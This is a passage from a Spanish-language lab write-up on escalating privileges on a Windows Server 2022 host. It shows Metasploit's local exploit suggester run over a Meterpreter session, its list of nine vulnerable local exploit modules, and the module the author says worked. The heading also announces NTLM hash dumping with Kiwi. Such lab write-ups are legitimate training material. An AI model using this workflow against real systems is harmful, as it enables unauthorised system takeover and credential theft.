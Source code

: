 <br>

<h2 id="PrivescAD2">Probando Módulo: cve_2024_30088_authz_basep para Escalar Privilegios en Máquina AD2 y Obteniendo los Hashes NTLM con Módulo Kiwi</h2>

Al usar una sesión normal, es decir, sin usar **Meterpreter** ni **Metasploit**, intenté identificar alguna vulnerabilidad usando **winPEASx64**, **adPEAS** y **Windows Exploit Suggester**, pero no logré identificar alguna.

Entonces, usaremos la sesión que ya tenemos de **Meterpreter** en **Metasploit** y el módulo `post/multi/recon/local_exploit_suggester` para ver si identifica alguna vulnerabilidad en el sistema.

Carguemos el módulo a **Metasploit**:
```bash
msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) >
```

Configúralo y ejecútalo:
```bash
msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > exploit
[*] 172.16.20.2 - Collecting local exploits for x64/windows..
...
[*] 172.16.20.2 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The service is running, but could not be validated. May be vulnerable, but exploit not tested on Windows Server 2022
 4   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2023_28252_clfs_driver               Yes                      The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
 6   exploit/windows/local/cve_2024_30085_cloud_files               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2024_30088_authz_basep               Yes                      The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
 8   exploit/windows/local/cve_2024_35250_ks_driver                 Yes                      The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2022
 9   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
...
```
Tenemos 9 Exploits que podemos probar, pero el que a mí me funcionó fue el **cve_2024_30088_authz_basep**.
